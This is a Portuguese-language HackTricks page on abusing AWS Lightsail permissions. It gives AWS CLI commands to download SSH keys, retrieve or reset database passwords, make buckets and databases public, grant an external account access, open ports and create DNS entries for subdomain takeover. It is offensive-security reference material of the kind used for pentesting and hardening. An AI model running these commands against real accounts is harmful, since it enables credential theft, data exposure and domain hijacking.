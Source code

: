 # AWS - Lightsail Privesc

{% hint style="success" %}
Aprenda e pratique Hacking na AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Lightsail

Para mais informações sobre Lightsail, verifique:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
É importante observar que o Lightsail **não utiliza funções IAM pertencentes ao usuário** mas a uma conta gerenciada pela AWS, então você não pode abusar deste serviço para escalonamento de privilégios. No entanto, **dados sensíveis** como código, chaves de API e informações de banco de dados podem ser encontrados neste serviço.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Esta permissão permitirá que você obtenha as chaves SSH para acessar as instâncias:
```
aws lightsail download-default-key-pair
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das instâncias.

### `lightsail:GetInstanceAccessDetails`

Essa permissão permitirá que você gere chaves SSH para acessar as instâncias:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das instâncias.

### `lightsail:CreateBucketAccessKey`

Essa permissão permitirá que você obtenha uma chave para acessar o bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impacto Potencial:** Encontrar informações sensíveis dentro do bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Essa permissão permitirá que você obtenha as credenciais para acessar o banco de dados:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impacto Potencial:** Encontrar informações sensíveis dentro do banco de dados.

### `lightsail:UpdateRelationalDatabase`

Essa permissão permitirá que você altere a senha para acessar o banco de dados:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Se o banco de dados não for público, você também pode torná-lo público com essas permissões com

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impacto Potencial:** Encontrar informações sensíveis dentro do banco de dados.

### `lightsail:OpenInstancePublicPorts`

Esta permissão permite abrir portas para a Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acesso a portas sensíveis.

### `lightsail:PutInstancePublicPorts`

Esta permissão permite abrir portas para a Internet. Note que a chamada fechará qualquer porta aberta que não esteja especificada nela.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acesso a portas sensíveis.

### `lightsail:SetResourceAccessForBucket`

Essas permissões permitem dar a instâncias acesso a um bucket sem a necessidade de credenciais extras

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impacto Potencial:** Novo acesso potencial a buckets com informações sensíveis.

### `lightsail:UpdateBucket`

Com essa permissão, um atacante poderia conceder ao seu próprio conta da AWS acesso de leitura sobre buckets ou até mesmo tornar os buckets públicos para todos:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impacto Potencial:** Novo acesso potencial a buckets com informações sensíveis.

### `lightsail:UpdateContainerService`

Com essas permissões, um atacante poderia conceder acesso a ECRs privados a partir do serviço de contêineres.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impacto Potencial:** Obter informações sensíveis do ECR privado

### `lightsail:CreateDomainEntry`

Um atacante com essa permissão poderia criar um subdomínio e apontá-lo para seu próprio endereço IP (apropriação de subdomínio), ou criar um registro SPF que permita a ele falsificar e-mails do domínio, ou até mesmo definir o endereço IP do próprio domínio como seu.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Assumir um domínio

### `lightsail:UpdateDomainEntry`

Um atacante com essa permissão poderia criar um subdomínio e apontá-lo para seu próprio endereço IP (assumir subdomínio), ou criar um registro SPF que permita a ele falsificar e-mails do domínio, ou até mesmo definir o endereço IP do próprio domínio principal.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Assumir o controle de um domínio

{% hint style="success" %}
Aprenda e pratique Hacking AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
